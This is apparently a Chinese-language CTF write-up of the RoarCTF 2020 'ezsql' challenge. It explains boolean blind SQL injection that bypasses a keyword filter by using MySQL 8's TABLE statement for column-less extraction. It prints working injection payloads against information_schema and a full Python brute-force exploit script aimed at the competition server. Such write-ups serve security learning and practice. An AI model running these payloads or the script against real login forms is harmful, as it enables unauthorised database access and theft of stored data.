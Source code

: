```yaml
---
title: RoarCTF 2020
date: 2020-12-07
image: 
description:  嘶吼CTF
categories: 
- ctf_writeup
tags:
- SQLi
---
```

### ezsql
考点：布尔盲注，MySQL_8.0.19新特性`table`语句，无列名盲注

截图截没有了，忘了，简单说下思路：

传统艺能sqli，本来是一个常规的布尔盲注，不过由于waf写的很黑，大小写ban掉了select，导致没有办法跨表查询，只能同表查询或者查库名：

~~~
admin'/**/and/**/ascii(substr(database(),1,1))>32#
//库名ctf
admin'/**/and/**/ascii(substr(password,1,1))>32#
//密码b4bc4c343ed120df3bff56d586e6d617
~~~

本来测出来有堆叠，但是由于waf写的很黑，堆叠也胎死腹中。

注出来密码md5(gml666)==b4bc4c343ed120df3bff56d586e6d617之后，登陆，提示no flag；
由于waf写的很黑，这到题如果MySQL版本不是>=8.0.19的话就是没有方法做的；

我们能够在[官方文档](https://dev.mysql.com/doc/refman/8.0/en/table.html "官方文档")找到以下资料

> The TABLE statement in some ways acts like SELECT. Given the existance of a table named t, the following two statements produce identical output:
> ```sql
> TABLE t;
> 
> SELECT * FROM t;
> ```
> You can order and limit the number of rows produced by TABLE using ORDER BY and LIMIT clauses, respectively. These function identically to the same clauses when used with SELECT (including an optional OFFSET clause with LIMIT)

本地Windows起一个MySQL_8.0.22的环境调试了一下，发现了之前[新春战疫](http://wh1sper.com/2020i%e6%98%a5%e7%a7%8b%e6%96%b0%e6%98%a5%e6%88%98%e7%96%ab%e5%85%ac%e7%9b%8a%e8%b5%9b_web_wp/ "新春战疫")的ezsql的姿势可以用，当时还抄了颖奇师傅的博客。

> 核心payload：(select 'admin','admin')>(select * from users limit 1)

> 假设flag为flag{bbbbb}，对于payload这个两个select查询的比较，是按位比较的，即先比第一位，如果相等则比第二位，以此类推；在某一位上，如果前者的ASCII大，不管总长度如何，ASCII大的则大，这个不难懂，和c语言的strcmp()函数原理一样，举几个例子：
> 
> 1. glag > flag{bbbbb}
2. alag{zzzzzzzzzzz} < flag{bbbbb}
3. a < flag{bbbbb}
4. z > flag{bbbbb}

库名已知，我们需要的就是表名，根据写的很黑的waf，我们其实只有一条路：`information_schema.tables`，这张表结构大概是这样：
![](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210116013103.png)

第一列`TABLE_CATALOG`基本都是`def`，少数是`NULL`，第二列是库名，第三列是表名，我们就只需要知道这些，另外的太多了不方便贴。

payload大概长这样：

```
admin'/**/and/**/ROW('ctf','aser',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<(table/**/information_schema.tables/**/limit/**/0,1)#
//返回password error!
admin'/**/and/**/ROW('ctf','aser',3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)>(table/**/information_schema.tables/**/limit/**/0,1)#
//返回,username error!
```
接下来是exp：
```python
#python3
import requests
url = 'http://139.129.98.9:30003/login.php'

def trans(flag):
    res = ''
    for i in flag:
        res += hex(ord(i))
    res = '0x' + res.replace('0x','')
    return res

flag = 'flag{6a55e234-1ed0-455c-bbf3-6df6ddce'
# flag只能跑到这里，后面的一位任意字母真任意非字母假
for i in range(1,500): #这循环一定要大 不然flag长的话跑不完
    hexchar = ''
    for char in range(32, 126):
        hexchar = trans(flag+ chr(char))

        # payload = "admin'/**/and/**/ROW('def','ctf',{},'A',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)" \
        #           ">(table/**/information_schema.tables/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/1,1)#".format(hexchar)
        # #表名admin和f11114g

        # payload = "admin'/**/and/**/ROW('def','ctf','admin',{},5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)" \
        #           ">(table/**/information_schema.columns/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/2,1)#".format(hexchar)
        # #admin：id,USERNAME,PASSWORD.....打偏了

        # payload = "admin'/**/and/**/ROW('def','ctf','f11114g',{},5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)" \
        #           ">(table/**/information_schema.columns/**/order/**/by/**/TABLE_SCHEMA/**/limit/**/6,1)#".format(hexchar)
        # #f11114g：F1LLLAGGG只有一列

        payload = "admin'/**/and/**/{}" \
                  ">(table/**/ctf.f11114g/**/limit/**/1,1)#".format(hexchar)
        #这里本来不需要列名的，注列名是为了搞清楚有几列

        data = {
                'username': payload,
                'password': '1'
        }
        proxies = {
            "http": "http://127.0.0.1:8080",
        }

        try:
            r = requests.post(url=url, data=data, proxies=proxies, timeout=2)
        except:
            pass
        print(char, r.text, data['username'])
        if 'password error!"' in r.text:
            flag += chr(char-1)
            print(flag)
            break

```

说明一下，这个exp有点问题，比如flag中的-会跑出来单引号，遇到的时候手动换一下就好，然后就是跑到最后四位的时候会断掉，后面的玄学跑不出来。
赛后和师傅交流说其实flag可以直接用ascii(substr(flag,1,1))>1的方式来做，因为f11114g表里面只有一个字段。

